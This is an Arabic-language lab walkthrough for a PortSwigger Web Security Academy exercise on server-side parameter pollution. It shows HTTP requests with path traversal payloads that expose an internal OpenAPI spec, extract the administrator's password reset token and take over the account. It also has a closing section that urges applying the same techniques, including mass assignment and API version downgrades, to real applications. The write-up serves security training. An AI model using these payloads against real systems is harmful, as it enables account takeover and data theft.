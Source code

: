 ## **Solving the Lab: Exploiting Server-side Parameter Pollution (Advanced Guide)**

### **المعرفة المطلوبة لحل المختبر وتطبيقه في بيئة حقيقية**

لحل هذا المختبر بشكل احترافي وتطبيقه على بيئات حقيقية، يجب أن يكون لديك فهم متقدم في:

- **تحديد استخدام مدخلات المستخدم في مسارات URL أو سلاسل الاستعلام (Query String) الخاصة بالـ API.**
- **استخدام تقنيات اجتياز المسارات (Path Traversal) لتغيير الطلبات المُرسلة إلى السيرفر.**
- **تحليل الـ API من خلال JavaScript أو واجهات API المفتوحة مثل OpenAPI.**
- **التلاعب بتنسيقات البيانات مثل JSON و XML لاستكشاف الثغرات الأمنية.**

---

### **الخطوة 1: تحليل التطبيق لتحديد نقاط الضعف**

#### **1. فحص الطلبات الصادرة باستخدام Burp Suite**

1. افتح **Burp's browser** وقم بتشغيل **إعادة تعيين كلمة المرور للمستخدم المسؤول (Administrator)**.
2. انتقل إلى **Proxy > HTTP history** وابحث عن الطلب `POST /forgot-password`.
3. ابحث عن أي ملفات **JavaScript** مرتبطة قد تكشف عن سلوك التطبيق، مثل:
   - `/static/js/forgotPassword.js`
4. اضغط بزر الفأرة الأيمن على `POST /forgot-password` واختر **Send to Repeater**.
5. في **Repeater**، أعد إرسال الطلب لمراقبة سلوك الاستجابة.

#### **2. اختبار إدخال المستخدم في المسارات**

- أرسل طلبات تحتوي على قيم معدّلة للـ `username` لمعرفة إذا كان الإدخال يُستخدم في مسار URL على السيرفر.
- استخدم القيم التالية على التوالي:
  - `administrator%23` → يُرجع **Invalid route** ➝ قد يكون الإدخال في **المسار**.
  - `administrator%3F` → يُرجع **Invalid route** ➝ `؟` ربما قطعت المسار.
  - `./administrator` → يُرجع الاستجابة الأصلية ➝ الإدخال ربما في المسار.
  - `../administrator` → يُرجع **Invalid route** ➝ محاولة اجتياز المسارات غير ناجحة.


```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=./administrator
```
---

### **الخطوة 2: اكتشاف توثيق الـ API وتحليل نقاط الضعف**

1. استخدم `../%23` ثم زِد عدد `../` تدريجياً حتى تصل إلى `../../../../%23`.
2. لاحظ أن هذا قد يُرجع **Not found**، مما يشير إلى أنك خرجت خارج جذر الـ API.
3. جرّب طلب ملفات تعريف API شائعة:

```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=../../../../%23
```
 
```http
POST /forgot-password HTTP/2
Host: 0aad004f04744b78861ce82600350052.web-security-academy.net

csrf=UAwMSSLhmUmQUbRiPSrhdpinxHG8Szay&username=../../../../openapi.json%23
```
4. قد يظهر لك مسار API مثل:
###RESPONSE
```json
{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```
- `/api/internal/v1/users/{username}/field/{field}`

🎯 **تحليل المسار:**
- `{username}` هو اسم المستخدم المُدخل.
- `{field}` قد يكون نوع البيانات المطلوب استردادها.

---

### **الخطوة 3: استغلال الثغرة والتلاعب بالـ API**

#### **1. استرجاع بيانات المستخدم باستخدام الحقول المتاحة**

1. أرسل الطلب التالي:
   - `username=administrator/field/foo%23`
2. سيُرجع **رسالة خطأ** لأن API يدعم فقط حقولًا معينة.
3. جرّب `email` كحقل صالح:
   - `username=administrator/field/email%23`
4. لاحظ إذا استجاب API بنفس الطريقة، مما قد يشير إلى أن `email` هو حقل صالح.

#### **2. استخراج رمز إعادة تعيين كلمة المرور**

1. في **HTTP history**، ابحث عن `/static/js/forgotPassword.js`.
2. حدد نقطة نهاية إعادة تعيين كلمة المرور:
   - `/forgot-password?passwordResetToken=${resetToken}`
3. جرّب استرداد قيمة `passwordResetToken`:
   - `username=administrator/field/passwordResetToken%23`
4. إذا فشل الطلب بسبب إصدار API المستخدم، قم بتعديله:
   - `username=../../v1/users/administrator/field/passwordResetToken%23`
5. إذا نجح الطلب، ستظهر لك **رمز إعادة تعيين كلمة المرور**.

#### **3. استخدام الرمز لاختراق الحساب**

1. في المتصفح، أدخل نقطة نهاية إعادة تعيين كلمة المرور:
   - `/forgot-password?passwordResetToken=123456789`
2. قم بتعيين كلمة مرور جديدة.
3. **سجّل الدخول كـ Administrator.**
4. انتقل إلى لوحة التحكم، وقم بحذف المستخدم **Carlos** لحل المختبر.

---

## **كيفية اكتشاف هذه الثغرات في بيئة حقيقية؟**

### **1. استخدام أدوات الـ Reconnaissance**
- استخدم **Burp Suite** و **Postman** لفحص طلبات API واكتشاف المدخلات القابلة للتلاعب.
- استخرج ملفات **OpenAPI** و **Swagger** لمعرفة جميع النقاط التي يمكن استهدافها.

### **2. تحليل مسارات الـ API يدويًا**
- جرّب **Path Traversal** من خلال إدخال `/../` ومعرفة إذا كان التطبيق يعيد توجيه الطلب.
- استخدم رموز مثل `#` و `?` لمعرفة ما إذا كان الإدخال يُستخدم في **المسار أو سلسلة الاستعلام**.

### **3. استغلال ثغرات التخصيص الجماعي (Mass Assignment)**
- أرسل **حقول إضافية** مثل `isAdmin: true` في الطلبات.
- جرّب إرسال **بيانات غير متوقعة** في JSON أو XML.

### **4. التلاعب بإصدارات الـ API**
- جرّب استدعاء إصدارات أقدم من الـ API مثل `/v1/` أو `/v2/` لرؤية الفروقات الأمنية.
- تأكد مما إذا كانت التطبيقات ما زالت تعتمد على إصدارات غير آمنة.

🔍 **نصيحة احترافية:** استخدم أداة **jwt.io** لتحليل **JSON Web Tokens (JWTs)**، فقد تحتوي على بيانات سرية يمكن استخدامها في الاختراق.

---

## **ملخص**
- **ابدأ بتحليل الطلبات باستخدام Burp Suite.**
- **اكتشف API Documentation باستخدام JavaScript أو OpenAPI.**
- **استخدم Path Traversal لاجتياز المسارات والوصول إلى بيانات حساسة.**
- **استغل إصدار API غير محمي لاستخراج رموز إعادة تعيين كلمة المرور.**
- **طبق نفس الخطوات على تطبيقات حقيقية باستخدام أدوات متقدمة مثل Postman و Burp Suite.**

🚀 **بهذه الطريقة، يمكنك اختبار واكتشاف ثغرات تلوث البارامترات على السيرفر في أي بيئة حقيقية!**

